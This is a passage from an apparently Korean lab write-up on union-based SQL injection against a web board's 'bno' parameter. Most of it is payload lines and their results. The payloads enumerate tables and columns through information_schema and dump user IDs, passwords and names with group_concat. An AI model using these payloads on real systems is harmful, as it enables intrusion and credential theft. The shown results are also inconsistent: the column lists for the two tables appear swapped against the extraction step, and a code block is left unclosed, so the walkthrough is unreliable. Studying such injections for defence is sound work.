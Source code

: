 - 3번 컬럼 자리에 데이터베이스 이름이 표시
- 절대 사용되지 않을 인덱스 값을 넣어 뒤에 오는 명령이 실행 되도록 한다

##### 3. 테이블 이름 알아내기

```sql
board?bno=-99' union select 1,group_concat(table_name),3,4 from information_schema.tables where table_type='TABLE'--

- 테이블 이름들이 한줄로 묶여서 표시
- 절대 사용되지 않을 인덱스 값을 넣어 뒤에 오는 명령이 실행 되도록 한다

##### 결과 : USERSTBL,BOARDSTBL

<br />

### 4. 컬럼명 알아내기

- 컬럼이름들이 한줄로 묶여서 표시
- 절대 사용되지 않을 인덱스 값을 넣어 뒤에 오는 명령이 실행 되도록 한다

<br />

#### USERSTBL

```sql
board?bno=-99' union select 1,2, group_concat(column_name),4 from information_schema.columns where table_name='USERSTBL'--
```

##### 결과 : ID,USERID,TITLE,CONTENT

#### BOARDSTBL

```sql
board?bno=-99' union select 1,2, group_concat(column_name),4 from information_schema.columns where table_name='BOARDSTBL'--
```

##### 결과 : ID,USERID,USERPW,USERNAME

<br />

### 5. 데이터 추출하기

#### USERSTBL

```sql
board?bno=-99' union select 1,group_concat(USERID),3,4 from USERSTBL--
board?bno=-99' union select 1,group_concat(USERPW),3,4 from USERSTBL--
board?bno=-99' union select 1,group_concat(USERNAME),3,4 from USERSTBL--
```

##### 결과 : Admin,Manager,User,Test,Secure,Ceo,Cto
